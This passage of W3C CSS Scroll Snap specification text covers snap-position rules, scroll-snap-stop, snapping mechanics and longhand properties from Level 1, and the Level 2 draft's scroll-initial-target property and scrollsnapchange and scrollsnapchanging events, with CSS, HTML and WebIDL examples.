In each axis, start and end alignments are resolved with respect to the writing mode of the snap container for that axis unless the scroll snap area is larger than the snapport, in which case they are resolved with respect to the writing mode of the box itself. (This allows items in a container to have consistent snap alignment in general, while ensuring that `start` always aligns the item to allow reading its contents from the beginning.)

##### 5.2.1.  Scoping Valid Snap Positions to Visible Boxes {#css-scroll-snap-1:snap-scope}

Since the purpose of scroll snapping is to align content within the scrollport for optimal viewing, a scroll position cannot be considered a valid snap position if snapping to it would leave the contributing snap area entirely outside the snapport, even if it otherwise satisfies the required alignment of the snap area.

> **Example:** For example, a snap area is top-aligned to the snapport if its top edge is coincident with the snapport’s top edge; and this would be considered a valid snap position for block-axis start-aligned snapping of that snap area *if at least part of the snap area is on-screen*. If the entire snap area is outside the snapport, however, then the scroll container cannot be considered to be snapped because the required alignment, though satisfied, would not be relevant to the viewer.
>
> ```
> ╔════viewport════╗┈┈┈┈┈┈┈┈┌──────────────┐
> ║  ┌─────┐ ┌──┐  ║        │ top-snapping │
> ║  ├──┐  │ └──┘  ║        │   element    │
> ║  └──┴──┘       ║        │              │
> ╚════════════════╝        │              │
>                           └──────────────┘
> ```
>
> Alignment of an off-screen element is not considered snapping.

> **Note:** Why limit snapping to only when the element is visible? As the [WebKit implementers point out](https://www.webkit.org/blog/4017/scroll-snapping-with-css-snap-points/), extending a snap edge infinitely across the canvas only allows for snapping gridded layouts, and produces odd behavior for the user when off-screen elements do not align with on-screen elements. (If this requirement is onerous for implementers however, we can default to a gridded behavior and introduce a switch to get smarter behavior later.)

> **Note:** Although `scroll-snap-type: both` evaluates snap positions independently in each axis, [choosing](#css-scroll-snap-1:choosing) of a snap position in one axis can be influenced by snap positions in the other axis. For example, snapping in one axis may push off-screen the snap area that the other axis would otherwise align to, making its snap position invalid and therefore unchooseable.

##### 5.2.2.  Snapping Boxes that Overflow the Scrollport {#css-scroll-snap-1:snap-overflow}

If the snap area is larger than the snapport in a particular axis, then any scroll position in which

- the snap area covers the snapport, and
- the distance between the geometrically previous and subsequent otherwise-valid snap positions in that axis is larger than size of the snapport in that axis,

is a valid snap position in that axis.

The UA may use the specified alignment as a more precise target for certain scroll operations (e.g. explicit paging).

> **Example:** For example, take the first example in [§ 2 Motivating Examples](#css-scroll-snap-1:examples), which had a photo as the area. The author wants mandatory snapping from item to item, but if the item happens to be larger than your viewport, you want to be able to scroll around the whole thing once you’re over it.
>
> Since the snap area is larger than the snapport, while the area fully fills the viewport, the container can be scrolled arbitrarily and will not try to snap back to its aligned position. However, if the container is scrolled such that the area no longer fully fills the viewport in an axis, the area resists outward scrolling until it is scrolled sufficiently to trigger snapping to a different snap position.

> **Example:** For another example, mandatory top-snapping on nested `section` elements can produce large snapping areas (from large top-level sections) potentially filled with smaller snapping areas (from the subsections). When the subsections are small enough, they snap normally; when they’re longer, the viewer can scroll arbitrarily within them, or within a large segment of the top-level section that has no subsections to snap to.
>
> ```
> ┌─ top-level section ─┐ ━┓        ┳ 1 (scroll position = 0)
> │                     │ 1┃        ┃
> │                     │  ┃        ┃
> │                     │ ━┩        ┃
> │                     │  ┆        ╿
> │                     │  ┆        │
> │                     │  ┆        │
> │┌─── sub-section ───┐│  ╯ ━┓     ┿ 2
> │└───────────────────┘│    2┃     │
> │┌─── sub-section ───┐│ ━┓  ┃     ┿ 3
> ││                   ││ 3┃ ━┛     │
> │└───────────────────┘│  ┃        │
> │┌─── sub-section ───┐│ ━┛ ━┓     ┿ 4
> │└───────────────────┘│    4┃     │
> │┌─── sub-section ───┐│ ━┓  ┃     ╈ 5
> ││                   ││ 5┃ ━┛     ┃
> ││                   ││  ┃        ┃
> ││                   ││ ━┩        ┃
> ││                   ││  ┆        ┃
> ││                   ││  ┆        ╹
> ││                   ││  ┆
> │└───────────────────┘│  ┆
> └─────────────────────┘  ╯
> ```
>
> In the figure above, the five numbered viewports represent the five snap positions associated with the top-level section and its four subsections. Because the first and last snap positions are part of ranges taller than the viewport, the viewer is allowed to scroll freely between the top and bottom of each range.
>
> Any position in that range is a valid snap position, which can be snapped to when it is the nearest position; however, if the element is targetted directly (such as by a fragment ID or a scrolling API), the UA will land on the bolded position, which corresponds to the ideal requested alignment of the element’s snap area within the snapport.
>
> > **Note:** If the author had instead set mandatory snap positions on the *headings* of each section (rather than the sections themselves), the contents of the first and fifth sections would be partially inaccessible to the user, as the heading snap area does not extend to cover the whole section. This is why it’s a bad idea to use mandatory snap positions on elements that might be widely spaced apart.

##### 5.2.3.  Unreachable Snap Positions {#css-scroll-snap-1:unreachable}

If a snap position is unreachable as specified, such that aligning to it would require scrolling the scroll container’s viewport past the edge of its scrollable overflow area, the *used* snap position for this snap area is the position resulting from scrolling *as much as possible* in each relevant axis toward the desired snap position.

#### 5.3. Scroll Snap Limits: the `scroll-snap-stop` property {#css-scroll-snap-1:scroll-snap-stop}

| Field | Value |
| --- | --- |
| Name: | **scroll-snap-stop** |
| [Value:](#css-values-4:value-defs) | normal \| always |
| [Initial:](#css-cascade-6:initial-values) | normal |
| [Applies to:](#css-cascade-5:applies-to) | [all elements](#css-pseudo-4:generated-content) |
| [Inherited:](#css-cascade-5:inherited-property) | no |
| [Percentages:](#css-values-4:percentages) | n/a |
| [Computed value:](#css-cascade-6:computed) | specified keyword |
| [Canonical order:](#cssom-1:serializing-css-values) | per grammar |
| [Animation type:](#web-animations-1:animation-type) | discrete |

When performing a relative scroll, the scroll container can “pass over” several possible snap positions (that would be valid to snap to, if the scrolling operation used the same direction but a lesser distance) before reaching the natural endpoint of the scroll operation and selecting its final scroll position. The `scroll-snap-stop` property allows such a possible snap position to “trap” the scrolling operation, forcing the scroll container to stop before the scrolling operation would naturally end.

Values are defined as follows:

****normal****

: The scroll container may pass over a snap position defined by this element during the execution of a scrolling operation.

****always****

: The scroll container must not pass over a snap position defined by this element during the execution of a scrolling operation; it must instead snap to the first of this element’s snap positions.

This property has no effect on non-relative scrolling operations, as they do not conceptually “pass over” any snap positions.

### 6. Snapping Mechanics {#css-scroll-snap-1:snap-concepts}

The precise model algorithm to select a snap position to snap to is intentionally left mostly undefined, so that user agents can take into account sophisticated models of user intention and interaction and adjust how they respond over time, to best serve the user.

This section defines some useful concepts to aid in discussing scroll-snapping mechanics, and provides some guidelines for what an effective scroll-snapping strategy might look like. User agents are encouraged to adapt this guidance and apply their own best judgement when defining their own snapping behavior. It also provides a small number of behavior requirements, to ensure a minimum reasonable behavior that authors can depend on when designing their interfaces with scroll-snapping in mind.

#### 6.1. Types of Scrolling Methods {#css-scroll-snap-1:scroll-types}

There are many ways to cause a page to scroll, and they differ in their intent, which affects how scroll snapping and other features should *respond* to them. The types of scrolling intents are:

****absolute scroll****

: An absolute scroll is a scrolling operation that is not intended to have any relation with the previous scroll position. Whether the new position is before or after the previous scroll position is not relevant to the operation; the scroll container just "goes straight there".

  > **Example:** Common examples of absolute scrolls include:
  >
  > - manipulating the scrollbar “thumb” explicitly
  > - programmatically scrolling via APIs such as `scrollTo()`
  > - tabbing through the document’s focusable elements
  > - navigating to an anchor within the page
  > - homing operations such as the `Home`/`End` keys

  > **Note:** Scroll snapping responds to an absolute scroll by finding the nearest valid snap position, *regardless* of direction.

****relative scroll****

: A relative scroll is a scrolling operation that does have a meaningful relation with the previous scroll position; that is, the fact that the new scroll position is before or after the old scroll position is an important quality of the scroll.

  Relative scrolls might or might not have an intended end position, but they always have an intended *direction*.

  > **Example:** Common examples of relative scrolls with both an intended direction and end position include:
  >
  > - a “fling” gesture, interpreted with momentum
  > - a panning gesture, released with or without momentum
  > - programmatically scrolling via APIs such as `scrollBy()`
  > - paging operations such as the `PgUp`/`PgDn` keys (or equivalent operations on the scrollbar)
  >
  > Common examples of relative scrolls with only an intended direction include:
  >
  > - pressing an arrow key on the keyboard
  > - pressing an arrow button on the scrollbar
  > - a swiping gesture interpreted as a fixed (rather than inertial) scroll

  The intended end point of the scroll prior to intervention from features such as snap points is its **natural end-point**.

  > **Note:** Scroll snapping responds to a relative scroll by finding the nearest valid snap position *in the intended direction* (if possible), so a snapped element can’t get "trapped" when the snap positions are far apart.

****stationary scroll****

: A stationary scroll is a scrolling operation that isn’t "intending" to move the scroller at all; instead, it’s attempting to keep something stationary (usually, an element you’re focusing on).

  > **Example:** Common examples of stationary scrolls include:
  >
  > - scroll anchoring with `overflow-anchor`, when off-screen content changes size and would move the current anchor
  > - scroll snapping (especially `mandatory`) when another element changes size and causes the scroller to no longer be at a valid snap point

  > **Note:** Scroll snapping responds to a stationary scroll by finding the nearest valid snap position, similar to an absolute scroll.

Additionally, because page layouts usually align things vertically and/or horizontally, UAs sometimes **axis-lock** a scroll when its direction is sufficiently vertical or horizontal. An axis-locked scroll is bound to only scroll along that axis. This prevents less-precise input mechanisms from drifting in the non-primary axis.

> **Note:** This specification only applies to scrolling methods supported by the user agent; it does not require the user agent to support any particular input or scrolling method.

#### 6.2. Choosing Snap Positions {#css-scroll-snap-1:choosing}

A scroll container can have many snap areas scattered throughout its scrollable overflow area. A naïve algorithm for selecting a snap position can produce behavior that is unintuitive for users, so care is required when designing a selection algorithm. Here are a few pointers that can aid in the selection process:

- Snap positions should be chosen to minimize the distance between the end-point (or the natural end-point) and the final snapped scroll position, subject to the additional constraints listed in this section.
- If a scroll is axis-locked, any snap positions in the other axis should be ignored during the scroll. (However, snap positions in the other axis can still effect the final scroll position.)
- In order to prevent a far-offscreen element from having difficult-to-understand effects on the scroll position, snap positions should be ignored if their elements are far outside of the “corridor” that the snapport defines as it moves through the scrollable overflow area, or a hypothetical “corridor” in the direction of a relative scroll, or the snapport after an absolute scroll.
- User agents *must* ensure that a user can “escape” a snap position, regardless of the scroll method. For example, if the snap type is `mandatory` and the next snap position is more than two screen-widths away, a naïve “always snap to nearest” selection algorithm might “trap” the user if their end position was only one screen-width away. Instead, a smarter algorithm that only returned to the starting snap position if the end-point was a fairly small distance from it, and otherwise ignored the starting snap position, would give better behavior.

  (This implies that a relative scroll without an intended end position must always ignore the starting snap positions.)
- If a page is navigated to a fragment that defines a target element (e.g. one that would be matched by `:target`, or the target of `scrollIntoView()`), and that element defines some snap positions, the user agent must snap to one of that element’s snap positions if its nearest scroll container is a scroll snap container. The user agent *may* also do this even when the scroll container has `scroll-snap-type: none`.
- If a scroll by page operation (e.g. Page down / Page up) is being performed, eligible snap positions that require scrolling less than or equal to the size of the optimal viewing region of the scroll container should be selected before any farther away, ignoring the starting snap positions so that progress is still made in the intended direction.

##### 6.2.1. Selecting between multiple aligned snap areas {#css-scroll-snap-1:multiple-aligned-snap-areas}

When snapping to a scroll position that is aligned with multiple scroll snap areas, the following algorithm procedure is used to determined which box is snapped on the block and inline axes for a particular scroll container:

1. Let *scroll position* be the scroll position of the scroll container
2. Let *inline* be the set of boxes whose scroll snap areas are aligned at this *scroll position* in the inline axis.
3. Let *block* be the set of boxes whose scroll snap areas are aligned at this *scroll position* in the block axis.
4. For each *list* of *block* and *inline*:

  1. If *list* contains one or more boxes that are focused or have a focused descendant, remove all other boxes from *list*
  2. Else if *list* contains one or more boxes that are targetted or have a targetted descendant, remove all other boxes from *list*.
  3. For each *box* in *list*:

    1. Remove any box from *list* which is an ancestor of *box*.
5. If *inline* and *block* are overlapping sets:

  1. Replace *inline* with the intersection of *inline* and *block*.
  2. Replace *block* with the intersection of *inline* and *block*.
6. Select the first element in tree order from *inline* as the snapped inline axis box.
7. Select the first element in tree order from *block* as the snapped block axis box.

### Appendix A: Longhands {#css-scroll-snap-1:longhands}

The physical and logical longhands (and their shorthands) interact as defined in [CSS-LOGICAL-1].

#### Physical Longhands for `scroll-padding` {#css-scroll-snap-1:padding-longhands-physical}

| Field | Value |
| --- | --- |
| Name: | **scroll-padding-top**, **scroll-padding-right**, **scroll-padding-bottom**, **scroll-padding-left** |
| [Value:](#css-values-4:value-defs) | auto \| `<length-percentage [0,∞]>` |
| [Initial:](#css-cascade-6:initial-values) | auto |
| [Applies to:](#css-cascade-5:applies-to) | scroll containers |
| [Inherited:](#css-cascade-5:inherited-property) | no |
| [Percentages:](#css-values-4:percentages) | relative to the scroll container’s scrollport |
| [Computed value:](#css-cascade-6:computed) | the keyword `auto` or a computed `<length-percentage>` value |
| [Canonical order:](#cssom-1:serializing-css-values) | per grammar |
| [Animation type:](#web-animations-1:animation-type) | by computed value type |
| [Logical property group:](#css-logical-1:logical-property-group) | `scroll-padding` |

These longhands of `scroll-padding` specify the top, right, bottom, and left edges of the snapport, respectively. Negative values are invalid.

#### Flow-relative Longhands for `scroll-padding` {#css-scroll-snap-1:padding-longhands-logical}

| Field | Value |
| --- | --- |
| Name: | **scroll-padding-inline-start**, **scroll-padding-block-start**, **scroll-padding-inline-end**, **scroll-padding-block-end** |
| [Value:](#css-values-4:value-defs) | auto \| `<length-percentage [0,∞]>` |
| [Initial:](#css-cascade-6:initial-values) | auto |
| [Applies to:](#css-cascade-5:applies-to) | scroll containers |
| [Inherited:](#css-cascade-5:inherited-property) | no |
| [Percentages:](#css-values-4:percentages) | relative to the scroll container’s scrollport |
| [Computed value:](#css-cascade-6:computed) | the keyword `auto` or a computed `<length-percentage>` value |
| [Canonical order:](#cssom-1:serializing-css-values) | per grammar |
| [Animation type:](#web-animations-1:animation-type) | by computed value type |
| [Logical property group:](#css-logical-1:logical-property-group) | `scroll-padding` |

These longhands of `scroll-padding` specify the block-start, inline-start, block-end, and inline-end edges of the snapport, respectively. Negative values are invalid.

| Field | Value |
| --- | --- |
| Name: | **scroll-padding-block**, **scroll-padding-inline** |
| [Value:](#css-values-4:value-defs) | [ auto \| `<length-percentage [0,∞]>` ]{1,2} |
| [Initial:](#css-cascade-6:initial-values) | auto |
| [Applies to:](#css-cascade-5:applies-to) | scroll containers |
| [Inherited:](#css-cascade-5:inherited-property) | no |
| [Percentages:](#css-values-4:percentages) | relative to the scroll container’s scrollport |
| [Computed value:](#css-cascade-6:computed) | see individual properties |
| [Animation type:](#web-animations-1:animation-type) | by computed value |
| [Canonical order:](#cssom-1:serializing-css-values) | per grammar |

These shorthands of `scroll-padding-block-start` + `scroll-padding-block-end` and `scroll-padding-inline-start` + `scroll-padding-inline-end` are longhands of `scroll-padding`, and specify the block-axis and inline-axis edges of the snapport, respectively.

If two values are specified, the first gives the start value and the second gives the end value.

If only one value is specified, the second value defaults to the same value.

#### Physical Longhands for `scroll-margin` {#css-scroll-snap-1:margin-longhands-physical}

| Field | Value |
| --- | --- |
| Name: | **scroll-margin-top**, **scroll-margin-right**, **scroll-margin-bottom**, **scroll-margin-left** |
| [Value:](#css-values-4:value-defs) | `<length>` |
| [Initial:](#css-cascade-6:initial-values) | 0 |
| [Applies to:](#css-cascade-5:applies-to) | [all elements](#css-pseudo-4:generated-content) |
| [Inherited:](#css-cascade-5:inherited-property) | no |
| [Percentages:](#css-values-4:percentages) | n/a |
| [Computed value:](#css-cascade-6:computed) | absolute length |
| [Canonical order:](#cssom-1:serializing-css-values) | per grammar |
| [Animation type:](#web-animations-1:animation-type) | by computed value type |
| [Logical property group:](#css-logical-1:logical-property-group) | `scroll-margin` |

These longhands of `scroll-margin` specify the top, right, bottom, and left edges of the scroll snap area, respectively.

#### Flow-relative Longhands for `scroll-margin` {#css-scroll-snap-1:margin-longhands-logical}

| Field | Value |
| --- | --- |
| Name: | **scroll-margin-block-start**, **scroll-margin-inline-start**, **scroll-margin-block-end**, **scroll-margin-inline-end** |
| [Value:](#css-values-4:value-defs) | `<length>` |
| [Initial:](#css-cascade-6:initial-values) | 0 |
| [Applies to:](#css-cascade-5:applies-to) | [all elements](#css-pseudo-4:generated-content) |
| [Inherited:](#css-cascade-5:inherited-property) | no |
| [Percentages:](#css-values-4:percentages) | n/a |
| [Computed value:](#css-cascade-6:computed) | absolute length |
| [Canonical order:](#cssom-1:serializing-css-values) | per grammar |
| [Animation type:](#web-animations-1:animation-type) | by computed value type |
| [Logical property group:](#css-logical-1:logical-property-group) | `scroll-margin` |

These longhands of `scroll-margin` specify the block-start, inline-start, block-end, and inline-end edges of the scroll snap area, respectively.

| Field | Value |
| --- | --- |
| Name: | **scroll-margin-block**, **scroll-margin-inline** |
| [Value:](#css-values-4:value-defs) | `<length>`{1,2} |
| [Initial:](#css-cascade-6:initial-values) | 0 |
| [Applies to:](#css-cascade-5:applies-to) | [all elements](#css-pseudo-4:generated-content) |
| [Inherited:](#css-cascade-5:inherited-property) | no |
| [Percentages:](#css-values-4:percentages) | n/a |
| [Computed value:](#css-cascade-6:computed) | see individual properties |
| [Animation type:](#web-animations-1:animation-type) | by computed value type |
| [Canonical order:](#cssom-1:serializing-css-values) | per grammar |

These shorthands of `scroll-margin-block-start` + `scroll-margin-block-end` and `scroll-margin-inline-start` + `scroll-margin-inline-end` are longhands of `scroll-margin`, and specify the block-axis and inline-axis edges of the scroll snap area, respectively.

If two values are specified, the first gives the start value and the second gives the end value.

If only one value is specified, the second value defaults to the same value.

---

## CSS Scroll Snap Module Level 2 {#css-scroll-snap-2}

- **Shortname:** `css-scroll-snap-2`
- **Editor's Draft:** [https://drafts.csswg.org/css-scroll-snap-2/](https://drafts.csswg.org/css-scroll-snap-2/)
- **Published TR:** [https://www.w3.org/TR/css-scroll-snap-2/](https://www.w3.org/TR/css-scroll-snap-2/)
- **W3C Status:** ED (testing)
- **Last Edited:** 2026-02-25
- **Diff Specification Over:** [CSS Scroll Snap Module Level 1 (`css-scroll-snap-1`)](#css-scroll-snap-1)

### 1. Introduction {#css-scroll-snap-2:intro}

*This section is not normative.*

*This is currently a delta spec over Scroll Snap 1.*

Scroll experiences don’t always start at the beginning. Interactions with carousels, swipe controls, and listviews often intend to begin from some element which might not be positioned at the beginning of the scroll container. JavaScript is required to make the scroll container initially scrolled to that element. By enabling CSS to specify that an element should be initially scrolled to, both users, page authors and browsers benefit.

In addition to setting an initial scroll target, developers need insights and events into Scroll Snap. Events like which element is snapped on which axis, when the snap event is changing, when snap completes and conveniences for snapping to children programmatically.

#### 1.1. First Layout {#css-scroll-snap-2:first-layout}

This event should follow the Animation code path. When animation objects are created and fire events, this is when a box has it’s first layout.

### 2. Motivating Examples {#css-scroll-snap-2:examples}

> **Example:** A carousel that starts scrolled to the middle image:
>
> ```css
> .carousel {
>     overflow-inline: auto;
> }
> .carousel .origin {
>     scroll-initial-target: nearest;
> }
> ```
>
> ```html
> <div class="carousel">
>     
>     
>     
>     
>     
> </div>
> ```

> **Example:** A search bar is available when the user scrolls back to the top:
>
> ```css
> .scrollport {
>     overflow-block: auto;
> }
>
> main {
>     scroll-initial-target: nearest;
> }
> ```
>
> ```html
> <div class="scrollport">
>     <nav>
>         ...
>     </nav>
>     <main>
>         ...
>     </main>
> </div>
> ```

### 3. Setting Where Scroll Starts {#css-scroll-snap-2:properties-on-the-scroll-container}

#### 3.1. The `scroll-initial-target` property {#css-scroll-snap-2:scroll-initial-target}

> **Issue:** The name "scroll-initial-target" is chosen as the least worst option which expresses that it should be scrolled to when its scroll container first shows up on the page. A better name for the property would be very much welcome. [[Issue #11173]](https://github.com/w3c/csswg-drafts/issues/11173)

##### 3.1.1.  Initial scroll target {#css-scroll-snap-2:initial-scroll-target}

The initial scroll target of a scroll container *scrollcontainer* is an element or pseudo-element whose `scroll-initial-target`property is non-`none` and whose nearest scroll container is *scrollcontainer*. When multiple such elements or pseudo-elements exist, user-agents should select the one which comes first in tree order. When no such element or pseudo-element exists, *scrollcontainer*’s initial scroll target is null.

If the initial scroll target of a scroll container is not null, it should be used to determine the initial scroll position of *scrollcontainer* by running the following steps:

1. Let *target* be the initial scroll target for *scrollcontainer*.
2. Let *position* be the result of running the steps to determine the scroll-into-view position of *target* with *behavior* set to "auto", *block* set to "start", *inline* set to "nearest", and *scrolling box* set to *scrollcontainer*.
3. Set *scrollcontainer*’s initial scroll position to *position*.

##### 3.1.2. scroll-initial-target Property Definition {#css-scroll-snap-2:scroll-initial-target-propdef}

| Field | Value |
| --- | --- |
| Name: | **scroll-initial-target** |
| [Value:](#css-values-4:value-defs) | none \| nearest |
| [Initial:](#css-cascade-6:initial-values) | `none` |
| [Applies to:](#css-cascade-5:applies-to) | [all elements](#css-pseudo-4:generated-content) |
| [Inherited:](#css-cascade-5:inherited-property) | no |
| [Percentages:](#css-values-4:percentages) | N/A |
| [Computed value:](#css-cascade-6:computed) | specified keyword |
| [Canonical order:](#cssom-1:serializing-css-values) | per grammar |
| [Animation type:](#web-animations-1:animation-type) | none |

****none****

: The element is not an initial scroll target.

****nearest****

: The element is potentially an initial scroll target for its nearest scroll container ancestor.

##### 3.1.3.  Interaction with `place-content` {#css-scroll-snap-2:scroll-initial-target-with-place-content}

If a scroll container’s initial scroll position is potentially set by both a content-distribution property and by `scroll-initial-target` on a descendant, `scroll-initial-target` wins.

##### 3.1.4.  Post-first layout arrivals {#css-scroll-snap-2:scroll-initial-target-fragment-navigation}

While the document is being [updated](https://html.spec.whatwg.org/multipage/browsing-the-web.html#updating-the-document), a scroll container’s initial scroll target might arrive after that scroll container has been laid out. If this happens, user agents should still scroll to the initial scroll target unless the user agent has reason to believe the user is no longer interested in scrolling to the initial scroll position.

### 4. Styling Snapped Items {#css-scroll-snap-2:styling-snapped}

> **Issue:** The ':snapped' pseudo-class is being dropped in favor of a [container state query](https://drafts.csswg.org/css-contain-4/scroll_state_explainer.html) approach.

#### 4.1. The Snapped-element Pseudo-class: `:snapped` {#css-scroll-snap-2:snapped}

The **:snapped** pseudo-class matches any snap targets, regardless of axis. The longform physical and logical pseudo-class selectors allow for more finite snapped children styling as they can target an individual axis.

More specific options are defined as follows:

****:snapped-x****

: Matches the child snapped on the horizontal axis.

****:snapped-y****

: Matches the child snapped on the vertical axis.

****:snapped-inline****

: Matches the child snapped on the inline axis.

****:snapped-block****

: Matches the child snapped on the block axis.

> **Note:** [Issue #6985](https://github.com/w3c/csswg-drafts/issues/6985#issuecomment-1049036401)  Need to figure out resolution of the initial frame.

### 5. Snap Events {#css-scroll-snap-2:snap-events}

#### 5.1. `scrollsnapchange` and `scrollsnapchanging` {#css-scroll-snap-2:scrollsnapchange-and-scrollsnapchanging}

CSS scroll snap points are often used as a mechanism to create scroll interactive "selection" components, where selection is determined with JavaScript intersection observers and a scroll end guestimate. By creating a built-in event, the invisible state will become actionable, at the right time, and always correct.

##### 5.1.1.  Snap Targets {#css-scroll-snap-2:snapTarget}

A **snap target** is an element or pseudo-element which the user-agent has [chosen](#css-scroll-snap-1:choosing) to snap a given snap container to.

| Event | Interface | Targets | Description |
| --- | --- | --- | --- |
| **`scrollsnapchange`** | `SnapEvent` | scroll containers | Fired at the scrolling element or `Document` at the end of a scroll (before a `scrollend` event) or after a [layout snap](#css-scroll-snap-1:re-snap) if the snap targets that the scrolling element or Document is snapped to changed. |
| **`scrollsnapchanging`** | `SnapEvent` | scroll containers | Fired at the scrolling element or `Document` during scrolling (before a `scroll` event), if the snap targets that the scrolling would cause the scroller to snap to are different from the snap targets selected at the last scrollsnapchanging event that was fired. |

##### 5.1.2.  `scrollsnapchange` {#css-scroll-snap-2:scrollsnapchange}

`scrollsnapchange` indicates that the snap area to which a snap container is snapped along either axis has changed. `scrollsnapchange` is dispatched:

1. when a scrolling operation is completed if, for either the block or inline axis, the snap target which the snap container is snapped to is different from the snap target it most recently snapped to in that axis. For snap containers with `proximity` strictness, the scroll may result in the snap container no longer being snapped to any snap target. [CSS Scroll Snap 1 § 6.2 Choosing Snap Positions](#css-scroll-snap-1:choosing) describes the method a UA follows when choosing between elements or pseudo-elements which are snap areas.
2. if there is a change to a snap container’s style such that it goes from having a non-`none` value for `scroll-snap-type` to having a `none` value or vice versa.
3. if, after a [layout change](#css-scroll-snap-1:re-snap), the snap target to which a snap container is snapped to changes, regardless of whether there is a change in scroll position after the layout change.

Scrolling operations always lead to `scrollend` events being fired. If a scrolling operation also results in a `scrollsnapchange` event being fired, the `scrollsnapchange` event should be fired before the `scrollend` event.

Each snap container has one **scrollsnapchangeTargetBlock** and one **scrollsnapchangeTargetInline** in the block and inline axes respectively, each of which can either be null if the container is not snapped in that axis or the snap target to which the container is snapped.

When asked to **update scrollsnapchange targets** for a snap container, *snapcontainer*, run these steps:

1. Let *doc* be *snapcontainer*’s associated `Document`.
2. Let *blockTarget* be the scrollsnapchangeTargetBlock associated with *snapcontainer*.
3. Let *inlineTarget* be the scrollsnapchangeTargetInline associated with *snapcontainer*.
4. Let *blockScrollSnapchangingTarget* be the scrollsnapchanging block-axis target associated with *snapcontainer*.
5. Let *inlineScrollSnapchangingTarget* be the scrollsnapchanging inline-axis target associated with *snapcontainer*.
6. Let *snap targets changed* be a boolean flag that is initially false.
7. If *blockTarget* is not the same snap target as *blockScrollSnapchangingTarget* or

  1. Set the scrollsnapchangeTargetBlock associated with *snapcontainer* to *blockScrollSnapchangingTarget*.
  2. Set *snap targets changed* to true.
8. If *inlineTarget* is not the same snap target as *inlineScrollSnapchangingTarget*:

  1. Set the scrollsnapchangeTargetInline associated with *snapcontainer* to *inlineScrollSnapchangingTarget*.
  2. Set *snap targets changed* to true.
9. If *snap targets changed* is true:

  1. If (*snapcontainer*, `"scrollsnapchange"`) is not already in *doc*’s pending scroll events:

    1. Append (*snapcontainer*, `"scrollsnapchange"`) to *doc*’s pending scroll events.

> **Note:** When snapping occurs on a scroller (either due to a layout change or a scrolling operation) the scrollsnapchanging block-axis target and scrollsnapchanging inline-axis target associated with that scroller are updated and represent the current snap targets of that scroller. This allows the update scrollsnapchange targets algorithm to use these snap targets to determine whether a `scrollsnapchange` event should be fired.

##### 5.1.3.  scrollsnapchanging {#css-scroll-snap-2:scrollsnapchanging}

`scrollsnapchanging` is dispatched:

- during a scrolling operation, if the snap targets to which a snap container would snap (in either axis) changes, or
- if a [layout change](#css-scroll-snap-1:re-snap) occurs such that a `scrollsnapchange` event is to be dispatched. In this case, as with the scrolling case, the `scrollsnapchanging` event should be dispatched before the `scrollsnapchange` event.

A scrolling operation might animate towards a particular position (e.g. scrollbar arrow clicks, arrow key presses, "behavior: smooth" programmatic scrolls) or might directly track a user’s input (e.g. touch scrolling, scrollbar dragging). In either case, the user agent [chooses](#css-scroll-snap-1:choosing) an **eventual snap target** in each axis to which the scroller will snap after the scrolling operation reaches its intended scroll position.

- In the former case, the intended scroll position is the scroll animation’s target scroll offset.
- In the latter case, the intended scroll position is the current scroll offset as determined by the user’s input.

`scrollsnapchanging` aims to let the web page know, as early as possible, that the scrolling operation will result in a change in the snap target the snap container is snapped to. The user agent should evaluate whether to trigger `scrollsnapchanging` based on the eventual snap target to which the scroller would snap were the scrolling operation to reach its intended scroll position.

> **Note:** Since scrollsnapchanging gives the web page hints about future snapping, the snapping hinted at by a scrollsnapchanging event might not materialize since it will be possible for subsequent scrolling input to further alter the snap container’s scroll position and result in a different eventual snap target.

Each snap container has one **scrollsnapchanging block-axis target** and one **scrollsnapchanging inline-axis target** in the block and inline axes respectively, each of which can either be null if the container is not snapping in that axis or the snap target to which the container is snapping.

When asked to **update scrollsnapchanging targets** for a snap container, *snapcontainer*, given an snap target newBlockTarget and an snap target newInlineTarget, run these steps:

1. Let *doc* be *snapcontainer*’s associated `Document`.
2. Let *blockTarget* be the scrollsnapchanging block-axis target that is associated with *snapcontainer*.
3. Let *inlineTarget* be the scrollsnapchanging inline-axis target that is associated with *snapcontainer*.
4. If *newBlockTarget* is not the same snap target as *blockTarget*:

  1. Set the scrollsnapchanging block-axis target associated with *snapcontainer* to *newBlockTarget*.
  2. If (*snapcontainer*, `"scrollsnapchanging"`) is not already in *doc*’s pending scroll events,

    1. Append (*snapcontainer*, `"scrollsnapchanging"`) to *doc*’s pending scroll events
5. If *newInlineTarget* is not the same snap target as *inlineTarget*:

  1. Set the scrollsnapchanging inline-axis target associated with *snapcontainer* to *newInlineTarget*.
  2. If (*snapcontainer*, `"scrollsnapchanging"`) is not already in *doc*’s pending scroll events,

    1. Append (*snapcontainer*, `"scrollsnapchanging"`) to *doc*’s pending scroll events

##### 5.1.4. Snap Events due to Layout Changes {#css-scroll-snap-2:snap-events-on-layout-changes}

When a snap container, *snapcontainer*, [re-snaps](#css-scroll-snap-1:re-snap), run these steps:

1. Let *newBlockTarget* be the snap target that *snapcontainer* has snapped to in the block axis or null if it did not snap to any element.
2. Let *newInlineTarget* be the snap target that *snapcontainer* has snapped to in the inline axis or null if it did not snap to any element or pseudo-element.
3. Run the steps to update scrollsnapchanging targets with *newBlockTarget* as newBlockTarget and *newInlineTarget* as newInlineTarget.
4. Run the steps to update scrollsnapchange targets for *snapcontainer*.

#### 5.2. SnapEvent interface {#css-scroll-snap-2:snapevent-interface}

```webidl
dictionary SnapEventInit : EventInit {
  Node? snapTargetBlock;
  Node? snapTargetInline;
};

[Exposed=Window]
interface SnapEvent : Event {
  constructor(DOMString type, optional SnapEventInit eventInitDict = {});
  readonly attribute Node? snapTargetBlock;
  readonly attribute Node? snapTargetInline;
};
```

****`snapTargetBlock`**,  of type Node, readonly, nullable**

: The element that the snap container is snapped to in the block axis at the snap position for the associated snap event. If the snap target corresponding to this was a pseudo-element, this will be the owning element of that pseudo-element.

****`snapTargetInline`**,  of type Node, readonly, nullable**

: The element that the snap container is snapped to in the inline axis at the snap position for the associated snap event. If the snap target corresponding to this was a pseudo-element, this will be the owning element of that pseudo-element.

For `scrollsnapchange` events, the snap position is the position already realized by the snap container after a scroll snap. For `scrollsnapchanging` events it is the snap position that the snap container will eventually snap to when the scrolling operation ends.

`SnapEvent`s do not bubble except when the event target is the `Document`. `SnapEvent`s are not cancellable.

### Appendix A: Event Handlers {#css-scroll-snap-2:event-handlers}

> **Issue:** This section should be moved to the HTML event handler [specification](https://html.spec.whatwg.org/#event-handlers-on-elements,-document-objects,-and-window-objects).

#### Event handlers on elements, Document objects and Window objects {#css-scroll-snap-2:event-handlers-on-elements-document-and-window-objects}

